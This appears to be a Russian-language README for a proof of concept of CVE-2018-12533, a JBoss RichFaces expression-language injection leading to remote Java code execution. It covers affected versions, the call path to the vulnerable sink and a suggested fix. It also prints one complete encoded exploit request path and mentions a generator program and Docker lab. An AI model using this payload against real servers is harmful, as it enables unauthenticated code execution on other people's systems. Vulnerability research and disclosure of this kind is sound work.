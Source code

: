 ### CVE
Package: org.richfaces:richfaces-core

Affected versions: >= 3.1.0, <= 3.3.4

Patched versions: None [не исправлено]

JBoss RichFaces 3.1.0 through 3.3.4 allows unauthenticated remote attackers to inject expression language (EL) expressions and execute arbitrary Java code via a /DATA/ substring in a path with an org.richfaces.renderkit.html.Paint2DResource$ImageData object

Arbitrary code execution

Передавая в path http запроса сериализованный объект типа ```org.richfaces.renderkit.html.Paint2DResource$ImageData``` можно добиться выполнения произвольного java кода. Сгенерировать нужный path можно запустив программу из директории `CVE-2018-12533-poc-path-param-builder`


### Stack trace до sink
```LocalWebConnection.getResponse(WebRequestSettings settings)```

```StagingConnection.execute()```

```FilterContainer.execute(ServletRequest request, ServletResponse response)```

```BaseFilter.doFilter(ServletRequest request, ServletResponse response,FilterChain chain)```

```InternetResourceService.serviceResource(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse)```

```InternetResourceService.serviceResource(String resourceKey, HttpServletRequest request, HttpServletResponse response)```

```ResourceLifecycle.send(ResourceContext resourceContext, InternetResource resource)```

```ResourceLifecycle.sendResource(ResourceContext resourceContext, InternetResource resource)```

```Paint2DResource.send(ResourceContext context)```


Sink:
Paint2DResource.send
[code link](https://github.com/BrentDouglas/richfaces-3/blob/9993471d966be8907de3c0de51bb726caaf587cc/ui/paint2D/src/main/java/org/richfaces/renderkit/html/Paint2DResource.java#L187)

### POC

В директории `CVE-2018-12533-poc-path-param-builder` представлена программа, которая генерирует http request path для исполнения требуемого java кода.

Пример такого path:
`org.richfaces.renderkit.html.Paint2DResource/DATA/eAHNUs9rE0EUngRq1XqoP1BEhLqKplAmaaoi1ICYigY2VhoRrIcw2bzuTjs7s52dTVaL3kSw4MWriOBJUBD9C7xJwUv-BBHEgyCCeNQ3u7XBgnf3so-Zb77ve997L7-SkViTs0r7VHMvWGIexFSD7IJe4YYGJhT0GuPSVOcWIFaJ9uBEI2Q-zDHDau8HH8d!vXhdJKMNsrPd8etKKN0go-0lpUNmbBUA9wOsdrT7vGuCRbLLY14ArCPAJSPtLtIYss9dZj1WFkz65fnOMnhm1sUXkRVeJfdIIY1I!hXxlxJSmCIR-j5pn6U0d-2pMFISpKEt5IQrSmATLdYDfXPjbe3xkw!NIim6qC9YHF9lIfyt2zKaSx91d8f4pptxGHIwd8ZVuQWaM8HvWOezaWTlT6EkjROZGRBgYgqCuuAz73YTTKC6F7nsIumm90KRFFxSCA05krGmZRDlHHgpjTTEMVcSqf!FfJ3529F!mPdgKpoczuNAE9txb8ob659-nn6E8SFu!xZuqPv8!sPW98XBeYuwDo7ZlVjuqDhrajtfI4xE59uhH2Pv9jatth3SWH-dPDi-pmE1gdhQH0zdJl2a3CpdxXAkeCCwyC8da4XawdOFRBoegpPhc8GSgyzDcy57agVKMhFikkIKXskxKvGCCa8H7Wpl-lx7unpmZsaZvEtIgm3eymLO2TfH-2pw4!OXo2uXszYxvaIhBzILXNH5xESJQSAwnNH40Fm-klGU9p-RpxMXKlOViZrjIcxAXUmDK1f7T!p20t8n90wr`


Также там есть Dockerfile с помощью которого можно сбилдить контейнер внутри которого будет работать web приложение к которому необходимо делать http запросы содержащие payload.


### Fix
Возможные фиксы:
- Выполнение java кода происходит при интерполяции исполняемого выражения из строки с использованием библиотеки  JBoss EL. Эта библиотека поддерживает задание context для исполнения, содержащего заранее определенное множество переменных, к которым можно обращаться в исполняемом выражении. Поэтому в качестве фикса могу предложить в случае когда Paint2DResource приходит из пользовательского ввода ограничивать context.

